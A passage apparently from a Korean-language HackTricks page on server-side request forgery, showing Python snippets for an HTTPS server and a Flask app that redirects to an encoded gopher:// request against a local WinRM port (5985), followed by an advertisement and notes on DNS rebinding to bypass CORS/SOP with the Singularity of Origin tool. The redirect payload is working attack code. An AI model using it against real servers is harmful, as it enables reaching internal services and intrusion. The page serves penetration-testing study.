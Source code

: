 ```python
httpd.socket = ssl.wrap_socket(httpd.socket, certfile="server.pem", server_side=True)
httpd.serve_forever()
```
```python
self.end_headers()

httpd = HTTPServer(('0.0.0.0', 443), MainHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, certfile="server.pem", server_side=True)
httpd.serve_forever()
```

```python
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)

@app.route('/')
def root():
return redirect('gopher://127.0.0.1:5985/_%50%4f%53%54%20%2f%77%73%6d%61%6e%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20', code=301)

if __name__ == "__main__":
app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
```
<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)을 사용하여 세계에서 가장 **고급** 커뮤니티 도구로 구동되는 **워크플로우를 쉽게 구축**하고 **자동화**할 수 있습니다.\
오늘 액세스하세요:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## DNS Rebidding CORS/SOP 우회

**CORS/SOP**로 인해 **로컬 IP에서 콘텐츠를 유출**하는 데 **문제**가 발생하는 경우, **DNS Rebidding**을 사용하여 이 제한을 우회할 수 있습니다:

{% content-ref url="../cors-bypass.md" %}
[cors-bypass.md](../cors-bypass.md)
{% endcontent-ref %}

### 자동화된 DNS Rebidding

[**`Singularity of Origin`**](https://github.com/nccgroup/singularity)은 [DNS rebinding](https://en.wikipedia.org/wiki/DNS\_rebinding) 공격을 수행하기 위한 도구입니다. 이 도구에는 공격 서버 DNS 이름의 IP 주소를 대상 기계의 IP 주소로 다시 바인딩하고 대상 기계의 취약한 소프트웨어를 공격하기 위한 공격 페이로드를 제공하는 필요한 구성 요소가 포함되어 있습니다.
